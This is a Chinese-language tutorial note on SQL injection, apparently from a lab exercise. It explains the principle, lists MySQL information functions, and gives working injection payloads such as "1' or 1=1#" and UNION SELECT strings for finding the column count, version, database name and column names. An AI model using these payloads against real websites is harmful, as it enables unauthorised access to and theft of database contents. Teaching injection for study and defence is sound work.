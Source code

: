 # SQL注入漏洞

## 一、原理

所谓SQL注入，是指web应用程序对用户输入数据的合理性没有明确判断，前端传入后端的参数是攻击者可控的，并且参数带入数据库查询具体来说，它是利用现有应用程序，将SQL语句注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入SQL语句得到一个存在安全漏洞的网站上的数据，而不是按照设计者意图去执行SQL语句

## 二、sql常用语句和函数

```
system_user()  			系统用户名
user()         			用户名
current_user   			当前用户名
session_user()  			连接数据库的用户名
database()     			数据库名
version()       			MYSQL数据库版本
load_file()      			转成16进制或者是10进制 MYSQL读取本地文件的函数
@@datadir     			   读取数据库路径
@@basedir     			   MYSQL 安装路径
@@version_compile_os    操作系统

1‘ or 1=1# 			                   来尝试获取全部账号信息
1' union all select 1, 2# 		       来判断可以获取的参数个数
1' union all select 1,(@@version)#	 来获取数据库版本
1' union all select 1,(database())#	 获取数据库名称
1' union all select 1, group_concat(column_name) from information_schema.columns where table_name='users'  #		获取表所有列名

```

## 三、漏洞类型

### 1、字符型注入

#### 1.1判断注入点

```
1' or 1=1 #
```



![image-20211227162301356](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNly1gxsgv8cz6hj30ce0dxq3z.jpg)

#### 1.2判断可以获取的参数和个数

```
-1' union all select 1,2;#
```

![image-20211227163102303](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNly1gxsh3ki8otj306r050aa1.jpg)
